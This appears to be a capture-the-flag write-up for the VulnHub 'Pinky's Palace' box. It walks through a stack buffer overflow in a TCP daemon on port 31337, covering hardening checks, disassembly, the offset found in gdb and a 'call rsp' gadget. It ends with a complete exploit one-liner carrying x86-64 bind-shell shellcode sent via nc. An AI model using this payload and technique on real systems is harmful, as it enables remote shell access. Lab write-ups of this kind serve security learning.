 Hardening info:

```
panel:
 Position Independent Executable: no, normal executable!
 Stack protected: no, not found!
 Fortify Source functions: no, only unprotected functions found!
 Read-only relocations: yes
 Immediate binding: no, not found!
```

Flow of main function:

![](https://i.imgur.com/romBY73.png)

The binary creates a TCP server and listens for connections (the port is 31337, assigned here: `0x00400a37      bf697a0000     edi = 0x7a69 `). If a connection is made a text will be sent and then it waits for input. When the input is sent it just sends it back. As you might have mentioned, it appears to be the program which is listening on the box at 31337. As it says, this might be the backdoor for root.

I see that a buffer is created for the input:
```
0x00400b39      b900000000     ecx = 0
0x00400b3e      ba00100000     edx = 0x1000
0x00400b43      89c7           edi = eax
```
We see that there is no protection against too long inputs. Let's do it dynamically to get known on how to abuse that buffer overflow. I use gdb with [peda](https://github.com/longld/peda), which is a great tool to do these things.

<script src="https://asciinema.org/a/McjE8Q6CpuKxCjfF0SYhATu5e.js" id="asciicast-McjE8Q6CpuKxCjfF0SYhATu5e" async></script>

You see in that record that I created a buffer with 256 chars. I sent it via `cat buff | nc localhost 31337`. Also I set a breakpoint to the first return. I took then the first buffer of the stack and checked it's size, it is 120 bytes. So whenever something is sent with more than 120 bytes it will overflow, EBP is filled and EIP could be overwritten. We need then also a address, if we want to send a shellcode, where we push it then and let it run. This is done via jmpcall. As there is no ASLR the address is always the same. We need a `call rsp` address, which is prompted as `0x400cfb : call rsp`. This address we will append as little endian to make the program flow jump to that address and run our shellcode there.

An nice tutorial on how to find such vuln is [here](https://pinkysplanet.net/simple-linux-x86-buffer-overflow/) and [here](http://www.cs.ucr.edu/~csong/cs165/17/lab2.html).

So, we need a shellcode. Remember the length of the buffer, 120 bytes. The shellcode can be 120 bytes big, after that comes our `call rsp` address. I'm using that [shellcode](https://www.exploit-db.com/exploits/41128/). It's only 87 bytes, so small enough for our buffer. You have to fill the full 120 bytes to reach the end of `eip`. I filled it with 33 times of `NOP` (that's the `\x90`).

Exploiting:

```
root@kali:~/vulnhub/pinkypalace/panel# python -c 'print "\x90"*33 + "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05" + "\xfb\x0c\x40\x00\x00\x00"' | nc pinkydb 31337
[+] Welcome to The Daemon [+]
This is soon to be our backdoor
into Pinky's Palace.
=> ���������������������������������H1�H1�H1���j)Xj_H�jf�D$�T^Rj1XjZ^j2Xj+XH�j^�ΰ!u���RH�/bin//shSH�<$�;�
                                                                                                               @
```

